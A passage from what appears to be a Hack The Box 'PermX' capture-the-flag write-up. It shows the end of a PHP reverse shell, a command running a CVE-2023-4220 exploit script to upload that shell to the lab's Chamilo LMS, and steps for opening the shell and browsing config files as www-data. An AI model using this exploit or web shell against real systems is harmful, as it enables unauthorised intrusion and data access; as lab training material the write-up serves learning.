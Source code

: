 ```php
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?> 

```

Execute the script:

```bash
./CVE-2023-4220.sh -f /home/alter/Desktop/HTB/permX/shell.php -h http://lms.permx.htb/ -p  4444
```

Navigate to <mark style="color:red;">**`http://lms.permx/main/inc/lib/javascript/bigupload/files/`**</mark> and open the shell

<figure><img src="../../../.gitbook/assets/image (65).png" alt=""><figcaption></figcaption></figure>

When I access <mark style="color:red;">**`www-data`**</mark>, I immediately go to the config folder to see what's in there, because we can't access it normally with a browser.

<figure><img src="../../../.gitbook/assets/image (66).png" alt=""><figcaption></figcaption></figure>
